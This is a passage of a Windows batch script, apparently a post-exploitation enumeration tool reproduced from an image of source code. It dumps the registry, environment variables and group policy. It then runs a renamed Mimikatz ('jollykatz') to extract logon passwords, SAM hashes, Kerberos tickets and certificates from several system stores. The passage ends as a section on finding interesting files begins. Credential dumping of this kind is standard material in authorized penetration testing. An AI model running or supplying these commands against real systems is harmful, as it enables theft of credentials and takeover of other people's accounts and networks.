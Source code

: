```batch
reg query HKCU /s >> registrydump.txt
echo.
echo.Environment variables
echo.---------------------
set
echo.
echo.Group Policy
echo.------------
gpresult /R 1>2>NUL
IF %ERRORLEVEL% == 1 (
	REM WINXP
	gpresult
) ELSE (
	REM WIN7
	gpresult /R
)
echo.
REM ** ALEX TO ADD CREDENUMERATE **
goto:eof

:dumphashespasseskerberoscerts
echo.Hashes, passwords, kerberos tickets and certificates
echo.-----------------
IF NOT DEFINED jollykatz echo === NOTE: Jollykatz%OSbit%.exe not found, skipping jollykatz checks ===
IF NOT DEFINED jollykatz goto:eof
echo.
echo.sekurlsa::logonPasswords full
echo.------
jollykatz%OSbit%.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"
echo.
echo.lsadump::sam
echo.------
jollykatz%OSbit%.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
echo.
echo.sekurlsa::tickets /export
echo.------
jollykatz%OSbit%.exe "privilege::debug" "token::elevate" "sekurlsa::tickets /export" "exit"
echo.
echo.crypto::certificates /export (CERT_SYSTEM_STORE_CURRENT_USER)
echo.------
jollykatz%OSbit%.exe "privilege::debug" "token::elevate" "crypto::capi" "crypto::cng" "crypto::certificates /systemstore:CERT_SYSTEM_STORE_CURRENT_USER /store:my /export" "exit"
echo.
echo.crypto::certificates /export (CERT_SYSTEM_STORE_LOCAL_MACHINE)
echo.------
jollykatz%OSbit%.exe "privilege::debug" "token::elevate" "crypto::capi" "crypto::cng" "crypto::certificates /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE /store:my /export" "exit"
echo.
echo.crypto::certificates /export (CERT_SYSTEM_STORE_LOCAL_MACHINE_ENTERPRISE)
echo.------
jollykatz%OSbit%.exe "privilege::debug" "token::elevate" "crypto::capi" "crypto::cng" "crypto::certificates /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE_ENTERPRISE /store:my /export" "exit"
echo.
echo.crypto::certificates /export (CERT_SYSTEM_STORE_USERS)
echo.------
jollykatz%OSbit%.exe "privilege::debug" "token::elevate" "crypto::capi" "crypto::cng" "crypto::certificates /systemstore:CERT_SYSTEM_STORE_USERS /store:my /export" "exit"
echo.
goto:eof

:findinterestingfiles
echo.Interesting files and directories
```